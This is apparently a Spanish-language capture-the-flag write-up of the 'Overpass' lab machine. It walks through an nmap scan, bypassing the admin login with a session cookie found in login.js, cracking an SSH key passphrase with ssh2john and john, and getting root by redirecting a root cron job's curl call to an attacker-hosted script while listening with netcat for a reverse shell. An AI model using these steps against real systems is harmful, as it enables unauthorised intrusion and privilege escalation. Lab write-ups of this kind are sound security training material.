 #Linux 
### nmap
```css
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLYC7Hj7oNzKiSsLVMdxw3VZFyoPeS/qKWID8x9IWY71z3FfPijiU7h9IPC+9C+kkHPiled/u3cVUVHHe7NS68fdN1+LipJxVRJ4o3IgiT8mZ7RPar6wpKVey6kubr8JAvZWLxIH6JNB16t66gjUt3AHVf2kmjn0y8cljJuWRCJRo9xpOjGtUtNJqSjJ8T0vGIxWTV/sWwAOZ0/TYQAqiBESX+GrLkXokkcBXlxj0NV+r5t+Oeu/QdKxh3x99T9VYnbgNPJdHX4YxCvaEwNQBwy46515eBYCE05TKA2rQP8VTZjrZAXh7aE0aICEnp6pow6KQUAZr/6vJtfsX+Amn3
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMyyGnzRvzTYZnN1N4EflyLfWvtDU0MN/L+O4GvqKqkwShe5DFEWeIMuzxjhE0AW+LH4uJUVdoC0985Gy3z9zQU=
|   256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINwiYH+1GSirMK5KY0d3m7Zfgsr/ff1CP6p14fPa7JOR
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### hacemos fuzzing con gobuster

![[2023-11-01_21-14.png]]

### encontramos varios directorios interesantes asi que aprobar.
directorios interesantes:
```css
	/aboutus
	/admin
	/downloads
```

### en el subdirectorio admin encontramos un pagina de login la cual no parece ser vulnerable a sqli 

![[2023-11-03_10-35.png]]

### vamos a mirar el codigo fuente en busca de mas informacion

![[2023-11-03_10-38.png]]

### vemos que la pagina esta haciendo un llamado a tres script diferentes, revisando en cada uno de ellos podemos encontrar que el script /login.js alberga una cookie de session

![[2023-11-03_10-43.png]]

### vamos a cambiar nuestra cookie por "SessionToken" para intentar acceder al login. esto lo haremos de la siguiente manera:

```c
	-click derecho
	 
	-inspeccionar
	 
	-storage
	
	-liego a +
	
	-editamos nuestro nombre de cookie por el que hemos conseguido
	
	-finalmente recargamos la pagina
```
![[2023-11-03_11-08.png]]

### hemos baypaseado el login con una cookie que hemos encontrado lo que nos permite ver una informacion valiosa.

![[2023-11-03_11-15.png]]

### ademas de una id_rsa encontramos un usuario llamado james. asi que podemos utilizar estas credenciales para  intentar acceder via SSH.

![[2023-11-03_11-25.png]]

### parece que necesitamos la contraseña para poder utilizar el id_rsa. asi que usaremos ssh2john de la siguiente manera.

```c
ssh2john id_rsa > id_rsa.hash
```

### ahora usaremos john para intentar conseguir el passdword
```c
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 

james13          (id_rsa)     

1g 0:00:00:00 DONE (2023-11-03 11:35) 16.66g/s 223200p/s 223200c/s 223200C/s pink25..cheergirl
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### conseguimos james13 como passdword para el id_rsa asi que vamos a probar con esto.

![[2023-11-03_11-42.png]]

### conseguimos dos archivos. uno de ellos nos da informacion sobre un programa llamado overpass que alberga las contraseñas asi que vamos a buscar ese programa con el comando 
```c
	find / -name "overpass" 2>/dev/null
```

### parece que no conseguimos nada. vamos a buscar las tareas crontab

![[2023-11-03_13-11 1.png]]

### tenemos una tarea crontab que se ejecuta cada minuto de cada dia de cada mes como el usuario root. esto podemos notarlo con los * que responden a cada opcion

este crontab hace un llamado con el comando curl sobre overpass.thm/downloads/src/buildscript.sh vamos a aprovechar esto para editar el /etc/hosts y de esta manera hacer que el overpass.thm apunte a nuestra maquina atacante.
![[2023-11-03_13-19.png]]

### ok sabemos que la tarea crontab hace un curl sobre  overpass.thm/downloads/src/buildscript.sh hemos modificado el /etc/hosts para que apunte a nuestra maquina. ahora respetando la ruta exacta, tal cual se ejecuta en la tarea crontab nos montaremos un servidor en python para poder ejecutar esta tarea desde nuestra maquina atacante.

```c
	-creados una carpeta llamada 'downloads' dentro de esta carpeta creamos otra llamada 'src'
	y finalmente creamos un archivo llamado "buildscript.sh" 
	este archivo va a contener nuestra reverse shell
```

![[2023-11-03_13-26.png]]
en  este caso usaremos la shell mas basica de todas en bash. 

### es importante saber que el curl hace el llamado a  overpass.thm/downloads/src/buildscript.sh en ese orden. por lo que debemos estar por detras de la carpeta  "downloads'' para que se ejecute correctamente.

ahora montamos un servidor en python de la siguiente manera:
```c 
	python3 -m http.server 80
```
esperamos un minuto mas o menos para que la tarea crontab se ejecute de nuevo
![[2023-11-03_13-33.png]]
por otro lado estaremos escuchando con netcat
```c 
	nc -lvnp 444
```

![[2023-11-03_13-37.png]]
### WE ARE ROOT
